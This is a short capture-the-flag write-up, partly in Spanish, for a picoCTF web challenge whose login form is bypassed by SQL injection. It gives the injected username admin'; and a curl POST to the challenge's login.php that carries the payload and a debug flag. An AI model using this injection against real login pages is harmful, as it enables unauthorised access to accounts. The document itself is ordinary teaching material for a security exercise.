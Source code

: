 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649
## Solución
**Solucion 1:**
Habilitar el recuadro escondido de debug.
En el registro de admin, el usuario debe ser **admin';**
La contraseña es innecesaria porque la ignora por el ;
**Solucion 2:**
curl https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=hola&debug=1"
## Notas adicionales
## Referencias